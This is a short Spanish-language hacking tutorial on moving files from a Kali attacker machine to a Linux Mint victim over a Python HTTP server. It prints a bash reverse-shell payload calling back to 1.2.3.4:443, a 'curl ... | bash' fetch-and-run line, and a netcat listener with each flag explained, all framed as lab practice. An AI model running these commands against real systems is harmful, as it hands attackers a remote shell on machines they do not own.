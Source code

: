 
---
- TAG: #Introducción #hacking #basico #HTTP #ReverShell #Python
----
# Transferir Archivos con un Servidor HTTP en la Red Interna

En este apartado, voy a compartir cómo transferir archivos con el servidor `http` en mi red interna. Ya que es muy importante cuando logremos acceder a nuestra máquina objetivo, es muy común que queramos escalar privilegios, encontrar alguna vulnerabilidad, incluso si queremos hacer algo de pivoting. Es muy importante poder transferir archivos desde mi máquina atacante a mi máquina víctima. Para ello, lo más común es levantar un servidor http compartiendo el archivo que deseemos compartir. En el siguiente ejemplo, estaremos viendo unos pequeños ejemplos desde mi máquina Kali Linux hacia mi máquina objetivo Linux Mint.

# Máquina Kali Linux (Atacante)

Vamos a crearn un `payload.sh`:

```bash
#!/bin/bash  
bash -i >& /dev/tcp/1.2.3.4/443 0>&1
```

Es la típica para crear una reverse shell con nuestra dirección IP de nuestra propia máquina atacante.

Ahora, para compartir el payload con nuestra máquina víctima, levantamos un servidor _http_ por el puerto _80_ con todos los archivos que tenemos en el directorio actual:

```python
python -m http.server 80
```

Si ejecutamos el comando, tendremos un servidor web levantado por el puerto 80, compartiendo todo lo del directorio actual donde se encuentra el archivo `payload.sh`.

Ahora nos dirigimos a nuestra máquina Linux Mint.

# Máquina Linux Mint (Víctima)

Abrimos el navegador y colocamos la dirección IP de la máquina Kali Linux.

También, si tenemos la opción de ejecución remota, dentro de la máquina víctima lo más óptimo es ejecutar el comando `curl` o `wget`.

Con `curl`:

```bash
curl http://1.2.3.4/payload.sh | bash
```

Por otro lado, en nuestra máquina **Kali Linux** usamos el siguiente comando:

```bash
sudo nc -nlvp 443
```

`nc` se refiere a `netcat`. Aquí está el desglose del comando:

- `sudo`: Ejecuta el comando con privilegios de superusuario. Esto es necesario si estás utilizando un puerto privilegiado (menor a 1024), como el puerto 443.
- `nc`: Llama a `netcat`, la utilidad de red.
- `-n`: Evita hacer búsquedas de nombres de host. Netcat usará directamente las direcciones IP.
- `-l`: Coloca a `netcat` en modo de escucha, esperando conexiones entrantes.
- `-v`: Modo detallado (verbose). Proporciona más información sobre lo que está haciendo `netcat`.
- `-p 443`: Especifica el puerto en el que `netcat` debe escuchar. En este caso, es el puerto 443.

Este comando debería ejecutarse primero en la máquina atacante **Kali Linux** y luego el comando `curl http://1.2.3.4/payload.sh | bash`.

Esto permite compartir archivos a través del servidor web.